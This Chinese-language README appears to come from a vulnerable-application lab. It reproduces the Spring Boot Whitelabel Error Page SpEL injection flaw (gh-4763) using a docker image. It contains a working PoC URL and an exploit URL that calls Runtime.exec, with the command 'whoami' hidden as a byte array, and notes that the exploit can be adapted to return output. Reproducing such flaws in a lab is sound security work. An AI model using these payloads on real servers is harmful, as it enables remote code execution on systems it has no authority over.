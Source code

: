 ## Spring Boot whitelabel-error-page SpEl 代码执行漏洞(gh-4763)

### 漏洞信息

 * [whitelabel error page vulnerability #4763](https://github.com/spring-projects/spring-boot/issues/4763)
 * [Spring Boot框架表达式注入漏洞](http://www.cnnetarmy.com/spring-boot%E6%A1%86%E6%9E%B6%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/)
 * [Spring Boot框架Whitelabel Error Page SpEL注入漏洞分析](http://www.moonsec.com/post-701.html)

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_springboot_1
 ```

2. 启动环境

 ```
$ docker run -d -p 80:8080 medicean/vulapps:s_springboot_1
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`, 假设启动的端口号为 8080

#### PoC

访问：

```
http://localhost:8080/fail2?payload=${new java.lang.String(new byte[]{97,98,99,100,101})}.
```

#### Exp

执行命令：

```
http://localhost:8080/fail2?payload=${T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{119,104,111,97,109,105}))}.
```

> 该 exp 没有回显，可稍处理转成有回显 Exp
